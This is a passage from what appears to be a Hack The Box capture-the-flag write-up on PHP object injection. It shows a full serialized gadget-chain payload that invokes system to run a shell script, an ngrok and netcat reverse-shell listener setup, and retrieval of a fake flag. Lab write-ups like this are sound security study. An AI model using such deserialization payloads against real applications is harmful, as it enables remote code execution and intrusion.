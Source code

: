 2. **Execute the Shell Script**:

   ```php
   O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:2:{i:0;N;i:1;s:13:"bash shell.sh";}i:2;a:1:{s:8:"callback";s:6:"system";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}
   ```

With a listener active, we connect to the server and confirm access.

## Retrieving the Flag

Once the reverse shell is established, navigate to the root directory and retrieve the flag:

```bash
www-data@pop-restaurant:/# cat pBhfMBQlu9uT_flag.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

## References

- [PHP Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php)
- [PHP Object Serialization](https://www.php.net/manual/en/language.oop5.serialization.php)
- [PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

<div style="display: flex; gap: 10px; justify-content: center;">
    <img src="/ctf/hack-the-box/challenges/web/pop-restaurant/pizza.gif" alt="Pizza" style="width: calc(100%/3); height: auto;" />
    <img src="/ctf/hack-the-box/challenges/web/pop-restaurant/ice-cream.gif" alt="Ice Cream" style="width: calc(100%/3); height: auto;" />
    <img src="/ctf/hack-the-box/challenges/web/pop-restaurant/spaghetti.png" alt="Spaghetti" style="width: calc(100%/3); height: auto;" />
</div>